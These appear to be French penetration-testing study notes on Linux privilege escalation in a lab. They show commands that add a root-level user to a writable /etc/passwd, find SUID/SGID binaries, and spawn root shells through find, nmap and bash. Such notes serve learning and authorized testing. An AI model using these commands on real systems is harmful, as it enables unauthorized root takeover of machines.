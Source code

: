 # 03-Escalade Basée sur les Permissions

#### Permissions d'Écriture sur `/etc/passwd`
> Si le fichier `/etc/passwd` est modifiable, on peut ajouter un utilisateur avec UID 0 (root).

```bash
# Vérifier les permissions sur /etc/passwd
ls -l /etc/passwd

# Si modifiable :
# 1. Générer un mot de passe hashé
joe@debian-privesc:~$ openssl passwd -1 -salt newroot newpassword
# $1$newroot$qm9VBP3J3Y7A4hJkLpfMY. (Exemple de sortie)

# 2. Ajouter l'utilisateur au fichier /etc/passwd
# Format: username:password_hash:UID:GID:GECOS:home_directory:shell
echo "rootclone:\$1\$newroot\$qm9VBP3J3Y7A4hJkLpfMY.:0:0:root:/root:/bin/bash" >> /etc/passwd
# (Utiliser le hash généré précédemment)

# 3. Se connecter en tant que nouvel utilisateur root
joe@debian-privesc:~$ su rootclone
Password: newpassword # Entrer le mot de passe 'newpassword'
root@debian-privesc:/home/joe# id
# uid=0(root) gid=0(root) groups=0(root)
```

#### Binaires SUID/SGID
> Rechercher des binaires avec le bit SUID (Set User ID) ou SGID (Set Group ID). Un binaire SUID s'exécute avec les permissions du propriétaire du fichier (souvent root). Un binaire SGID s'exécute avec les permissions du groupe propriétaire.

```bash
# Trouver les binaires SUID (s'exécutent avec les permissions du propriétaire)
find / -perm -u=s -type f 2>/dev/null

# Trouver les binaires SGID (s'exécutent avec les permissions du groupe)
find / -perm -g=s -type f 2>/dev/null

# Combinaison pour les binaires appartenant à root avec SUID ou SGID
find / -user root \( -perm -4000 -o -perm -2000 \) -type f -exec ls -ldb {} \; 2>/dev/null
```
> **Exploitation de Binaires SUID/SGID Courants :**
> De nombreux exécutables standards, s'ils ont le bit SUID, peuvent être abusés pour obtenir un shell root.
> Consulter GTFOBins (https://gtfobins.github.io/) pour des techniques d'exploitation spécifiques.
> Exemples courants : `nmap` (ancienne version avec mode interactif), `find` (avec `-exec`), `cp`, `mv`, `tar`, `awk`, `perl`, `python`, `bash`, `more`, `less`, `vi`, `systemctl`, `journalctl`, `gdb`, etc.

```bash
# Exemple avec find (si SUID root)
# find . -exec /bin/sh -p \; -quit

# Exemple avec nmap (anciennes versions SUID)
# nmap --interactive
# nmap> !sh

# Exemple avec bash (si SUID root)
# bash -p
```
